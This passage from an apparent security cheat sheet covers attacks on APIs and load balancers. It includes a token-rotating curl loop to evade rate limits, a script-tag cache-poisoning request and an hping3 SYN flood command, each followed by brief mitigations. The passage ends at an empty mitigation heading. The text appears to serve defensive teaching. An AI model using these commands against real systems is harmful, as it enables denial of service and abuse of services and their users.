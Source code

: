 ### 🔥 **Attack Method**

- **Rotate IPs** using botnets to bypass **API rate limits**.
- Use **different tokens** (JWT, OAuth) to bypass per-user restrictions.

### **🛠 Exploit Example**

```bash
for i in {1..1000}; do curl -H "Authorization: Bearer token_$i" http://api.target.com/login; done
```

### **🔒 Mitigation**

✅ Use **behavior-based rate limiting** (not just IP-based)  
✅ Implement **reCAPTCHA** for sensitive API endpoints

---

## **7. Load Balancer Cache Poisoning**

### 🔥 **Attack Method**

- If the load balancer **caches user input**, an attacker can inject **malicious responses** into the cache.
- This leads to **stored XSS, CSRF, or HTML Injection**.

### **🛠 Exploit Example**

```http
GET /search?q=<script>alert(1)</script> HTTP/1.1
```

### **🔒 Mitigation**

✅ Disable **caching for dynamic pages**  
✅ Sanitize **user input before caching**

---

## **8. Bursting Traffic to Overload Load Balancer**

### 🔥 **Attack Method**

- Instead of a sustained **DDoS**, attackers send **bursts of high-volume traffic** to exhaust **rate limits and WAF rules**.

### **🛠 Exploit Example**

```bash
hping3 -c 5000 -d 120 -S -w 64 -p 443 --flood target.com
```

### **🔒 Mitigation**
